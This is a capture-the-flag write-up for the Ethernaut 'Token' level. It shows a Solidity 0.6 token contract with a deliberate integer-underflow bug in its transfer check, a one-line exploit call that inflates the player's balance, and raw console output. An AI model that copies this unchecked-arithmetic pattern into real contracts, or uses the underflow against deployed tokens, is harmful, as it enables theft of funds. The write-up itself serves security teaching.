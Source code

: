 ```yaml
---
title: "Token"
tags: ["Underflow"]
reference: https://ethernaut.openzeppelin.com/level/5
---
```


# Description

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

- What is an odometer?

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

# Solution

1. unsigned integer underflow attack

```
contract.transfer(instance, 30)
```

2. check balance of player

```
await contract.balanceOf(player)
i {negative: 0, words: Array(11), length: 10, red: null}
length
: 
10
negative
: 
0
red
: 
null
words
: 
Array(11)
0
: 
67108833
1
: 
67108863
2
: 
67108863
3
: 
67108863
4
: 
67108863
5
: 
67108863
6
: 
67108863
7
: 
67108863
8
: 
67108863
9
: 
4194303
```
